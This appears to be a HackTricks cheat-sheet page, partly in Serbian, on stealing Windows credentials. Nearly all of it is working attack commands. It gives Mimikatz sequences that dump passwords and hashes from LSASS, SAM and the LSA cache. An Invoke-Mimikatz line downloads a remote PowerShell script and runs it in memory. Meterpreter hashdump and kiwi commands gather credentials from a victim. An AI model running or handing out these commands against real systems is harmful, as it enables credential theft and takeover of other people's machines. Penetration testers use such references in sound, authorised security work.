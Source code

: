 # Stealing Windows Credentials

<details><summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## Mimikatz akreditacije

```bash
#Elevate Privileges to extract the credentials
privilege::debug #This should give am error if you are Admin, butif it does, check if the SeDebugPrivilege was removed from Admins
token::elevate
#Extract from lsass (memory)
sekurlsa::logonpasswords
#Extract from lsass (service)
lsadump::lsa /inject
#Extract from SAM
lsadump::sam
#One liner
mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "exit"
```

**Pronađite druge stvari koje Mimikatz može uraditi na** [**ovoj stranici**](credentials-mimikatz.md)**.**

### Invoke-Mimikatz

```bash
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/clymb3r/PowerShell/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1')
Invoke-Mimikatz -DumpCreds #Dump creds from memory
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "exit"'
```

[**Saznajte o nekim mogućim zaštitama za pristupne podatke ovde.**](credentials-protections.md) **Ove zaštite mogu sprečiti izvlačenje nekih pristupnih podataka pomoću alata Mimikatz.**

## Pristupni podaci sa Meterpreterom

Koristite [**Credentials Plugin**](https://github.com/carlospolop/MSF-Credentials) **koji sam kreirao da biste pretražili lozinke i hešove** unutar žrtve.

```bash
#Credentials from SAM
post/windows/gather/smart_hashdump
hashdump

#Using kiwi module
load kiwi
creds_all
kiwi_cmd "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam"

#Using Mimikatz module
load mimikatz
mimikatz_command -f "sekurlsa::logonpasswords"
mimikatz_command -f "lsadump::lsa /inject"
mimikatz_command -f "lsadump::sam"
```
